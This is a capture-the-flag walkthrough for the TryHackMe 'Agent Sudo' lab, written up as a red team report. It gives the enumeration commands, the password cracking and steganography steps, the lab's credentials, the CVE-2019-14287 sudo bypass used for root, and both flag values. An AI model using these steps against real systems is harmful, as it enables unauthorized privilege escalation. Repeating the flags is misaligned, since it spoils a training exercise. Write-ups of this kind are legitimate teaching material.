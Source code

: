 # 🛡️ Red Team Report: TryHackMe - Agent Sudo

**Target:** 10.10.11.80  
**Assessment Type:** Black-box penetration test  
**Date:** 2025-07-19  
**Author:** 666 (Red Team Operator)  
**Objective:** Identify and exploit vulnerabilities to gain initial access, escalate privileges, and capture user and root flags.

---

## 🔎 1. Enumeration

### 1.1 Nmap Full Port Scan

```
nmap -p- -sV -T4 -oN nmap.txt 10.10.11.80
```

**Findings:**

| Port | Service | Version                   |
|------|---------|---------------------------|
| 21   | FTP     | vsftpd 3.0.3              |
| 22   | SSH     | OpenSSH 7.6p1 (Ubuntu)    |
| 80   | HTTP    | Apache 2.4.29 (Ubuntu)    |

---

## 🌐 2. Web Enumeration (Port 80)

Visiting `http://10.10.11.80/` displayed a message:

> **"Use your own codename as user-agent to access the site."**

Using `curl` with a custom user-agent:

```
curl -A "C" -I http://10.10.11.80/
```

Response:
```
HTTP/1.1 302 Found
Location: agent_C_attention.php
```

---

## 📁 3. FTP Access

Credentials recovered from open-source recon:

- **FTP Login:** chris:crystal

Authenticated and retrieved the following files:

```
lftp 10.10.11.80
mget *
```

### Loot:
- `cutie.png`
- `cute-alien.jpg`
- `To_agentJ.txt`

---

## 📦 4. File Analysis

### 4.1 Binwalk on `cutie.png`

```
binwalk -e cutie.png
```

Extracted encrypted ZIP file `secret.zip`.

**Cracked with `john` + `rockyou.txt`:**

```
zip2john secret.zip > zip.hash
john zip.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

**Password found:** `alien`

Decrypted content: `To_agentR.txt`  
Message base64-decoded to: **Area51**

---

### 4.2 Steghide on `cute-alien.jpg`

```
steghide extract -sf cute-alien.jpg
```

**Passphrase:** `alien`  
**Extracted file:** `message.txt`

```
Hi james,
Your login password is hackerrules!
```

---

## 🔐 5. Initial Access

```
ssh james@10.10.11.80
Password: hackerrules!
```

Gained shell as user **james** on `Ubuntu 18.04.3 LTS`.

User flag located at:
```
cat ~/user_flag.txt
# b03d975e8c92a7c04146cfa7a5a313c7
```

---

## ⬆️ 6. Privilege Escalation

### 6.1 `sudo -l` Output

```
User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

### 6.2 CVE-2019-14287 Exploitation

Despite being disallowed from running as root, user `james` can exploit the vulnerability by using UID `-1` which wraps to `0` (root):

```
sudo -u#-1 /bin/bash
```

Root shell obtained.

---

## 🧠 7. Post-Exploitation

### Root Flag:
```
cat /root/root.txt
# b53a02f55b57d4439e3341834d70c062
```

### Message:
```
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. 
Tips: always update your machine.

By,
DesKel a.k.a Agent R
```

---

## 🧾 Summary

| Phase                 | Outcome                         |
|----------------------|----------------------------------|
| Service Enumeration  | FTP, SSH, Apache HTTP discovered |
| Web Enumeration      | User-agent logic bypass          |
| FTP Exploitation     | Retrieved hidden files           |
| Stego & Zip Cracking | Revealed credentials             |
| Initial Access       | SSH with james:hackerrules       |
| PrivEsc              | CVE-2019-14287 exploited          |
| Root Access          | Achieved                         |

---

## 🎯 Final Thoughts

- The box teaches layered enumeration: combining file analysis, steganography, base64, password cracking, and binary privilege escalation.
- The sudo misconfiguration is critical and was effectively abused using a known CVE.
- File analysis tools (`binwalk`, `steghide`, `john`) were essential in progressing.
- As always, patching sudo and restricting dangerous configurations (like `ALL, !root`) is vital.

---  
**Flags Captured:**  
- `user.txt`: `b03d975e8c92a7c04146cfa7a5a313c7`  
- `root.txt`: `b53a02f55b57d4439e3341834d70c062`  

---  
*Report prepared by 666 | Red Team Operator*  
*Target neutralized: ✅*
